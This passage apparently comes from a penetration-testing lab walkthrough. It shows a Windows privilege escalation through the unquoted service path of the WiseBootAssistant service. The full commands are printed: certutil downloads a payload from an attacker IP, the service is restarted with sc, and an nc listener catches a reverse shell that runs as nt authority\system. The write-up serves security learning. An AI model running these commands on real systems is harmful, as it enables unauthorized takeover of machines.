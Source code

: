 Now I can download the file with certutil to the target. The command looks like: **certutil.exe -urlcache -f http://192.168.138.4/wise.exe wise.exe**
~~~
C:\Program Files (x86)\Wise>certutil.exe -urlcache -f http://192.168.138.4/wise.exe wise.exe                                                        
certutil.exe -urlcache -f http://192.168.138.4/wise.exe wise.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Program Files (x86)\Wise>
~~~
As soon as my payload file is downloaded, I need to stop the service and start the service again.
~~~
C:\Program Files (x86)\Wise>sc stop WiseBootAssistant
sc stop WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x1388

C:\Program Files (x86)\Wise>sc start WiseBootAssistant
sc start WiseBootAssistant
~~~
After stoping and starting the service, the reverse shell started via the unqouted service path.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 9876
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9876
Ncat: Listening on 0.0.0.0:9876
Ncat: Connection from 192.168.138.8.
Ncat: Connection from 192.168.138.8:49700.
Microsoft Windows [Version 10.0.19043.1889]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
~~~
Let's find out who I am on the machine.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 9876
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9876
Ncat: Listening on 0.0.0.0:9876
Ncat: Connection from 192.168.138.8.
Ncat: Connection from 192.168.138.8:49700.
Microsoft Windows [Version 10.0.19043.1889]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
~~~
It looks like I am "nt authority\system". This means I own the whole system!